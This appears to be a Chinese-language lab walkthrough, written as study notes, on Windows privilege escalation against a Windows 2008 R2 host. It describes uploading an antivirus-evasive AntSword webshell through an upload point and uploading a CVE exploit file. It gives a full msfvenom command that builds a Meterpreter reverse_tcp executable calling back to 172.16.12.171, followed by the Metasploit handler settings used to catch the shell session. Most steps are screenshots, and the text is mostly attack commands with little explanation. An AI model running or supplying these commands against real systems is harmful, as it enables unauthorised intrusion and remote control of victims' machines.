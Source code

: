 # Windows提权

例：Windows2008r2

配置vpn（如果不行可以还原快照，选择对应的vpn，输入账号密码）

![image-20210824205251309](Windows提权/image-20210824205251309.png)

kali中安装蚁剑（拖入linux版，连个文件解压，初始化，点位置选第二个文件夹，然后就可以运行了）

在kali中打开浏览器找到上传点，上传as免杀马，蚁剑链接![image-20210824205205278](Windows提权/image-20210824205205278.png)

上传cve文件![image-20210824205133060](Windows提权/image-20210824205133060.png)

现在msf中生成可以反弹的shell打开终端

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=5678 -f exe -o msf24.exe

![image-20210824210104475](Windows提权/image-20210824210104475.png)

![image-20210824210434053](Windows提权/image-20210824210434053.png)

退到主目录，右键打开终端运行 dir查看，whoami查看当前权限为web

![image-20210824210556320](Windows提权/image-20210824210556320.png)

打开监听端口，进入msf

`use exploit/multi/handler`

![image-20210824210906728](Windows提权/image-20210824210906728.png)

options查看配置

![image-20210824211103844](Windows提权/image-20210824211103844.png)

设置payload与之前上传的保持一致

设置

lhost  0.0.0.0 为全端口监听，也可以设置成自己的ip

 lport  刚才设置的端口

![image-20210824211415006](Windows提权/image-20210824211415006.png)

exploit  运行监听模块 

![image-20210824211601987](Windows提权/image-20210824211601987.png)

会话反弹回来了

![image-20210824211850910](Windows提权/image-20210824211850910.png)

sessions -i  查看会话

sessions 1  使用

![image-20210824212530201](Windows提权/image-20210824212530201.png)



![image-20210824212919070](Windows提权/image-20210824212919070.png)

![image-20210824213252858](Windows提权/image-20210824213252858.png)

![image-20210824213616273](Windows提权/image-20210824213616273.png)

![image-20210824213939019](Windows提权/image-20210824213939019.png)



















`set payload windows/meterpreter/reverse_tcp`
`set lhost 172.16.12.171`
`set lport 4444`

`set exitonsession fasle`

